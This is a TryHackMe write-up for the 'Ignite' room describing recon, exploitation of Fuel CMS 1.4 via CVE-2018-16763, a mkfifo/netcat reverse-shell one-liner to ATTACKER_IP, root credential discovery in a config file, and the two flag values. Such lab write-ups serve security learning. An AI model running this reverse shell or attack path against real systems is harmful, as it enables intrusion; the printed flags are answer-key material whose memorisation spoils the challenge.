





# Ignite — TryHackMe Writeup

**Target:** Ignite  
**Platform:** TryHackMe  
**Difficulty:** Easy  
**Category:** Web Enumeration, Fuel CMS, CVE-2018-16763, Command Execution, Credential Discovery

---

## Recon

I started with Rustscan to scan for open ports.

```bash
rustscan -b 500 --scripts none -t 5000 -a TARGET_IP
```

I then used Nmap to enumerate the services running on the discovered port.

```bash
nmap -sC -sV -T4 -p80 TARGET_IP
```



The Nmap results showed that the website was using **Fuel CMS**, and `robots.txt` contained the following path:

```text
/fuel/
```

Based on this information, I checked the website and found that the homepage was still displaying the default Fuel CMS page with version **1.4**.



---

## Initial Foothold — Fuel CMS

I then searched for vulnerabilities affecting this version of Fuel CMS and found **CVE-2018-16763**.

The vulnerability affects the following endpoint:

```text
/fuel/pages/select/
```

with the `filter` parameter.

With this information, I searched for an available exploit using SearchSploit and found a suitable exploit.



The exploit successfully provided an interactive shell on the target.

However, the shell provided by the exploit was stateless, so I could not move between directories comfortably. I then considered using a reverse shell based on `/dev/tcp` or `/dev/udp`, but the target did not have `/dev/tcp` or `/dev/udp` available.

Because of that, I used an alternative based on a named pipe (`mkfifo`) with Netcat.

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc ATTACKER_IP 9004 >/tmp/f
```



After obtaining the reverse shell, I could continue the enumeration more comfortably.

---

## Credential Discovery

During enumeration, I found root credentials in:

```text
/var/www/html/fuel/application/config/database.php
```

The credentials were valid and could be used to switch to the `root` user.



---

## Flags

### Flag

```text
6470e394cbf6dab6a91682cc8585059b
```

### Root Flag

```text
b9bbcb33e11b80be759c4e844862482d
```

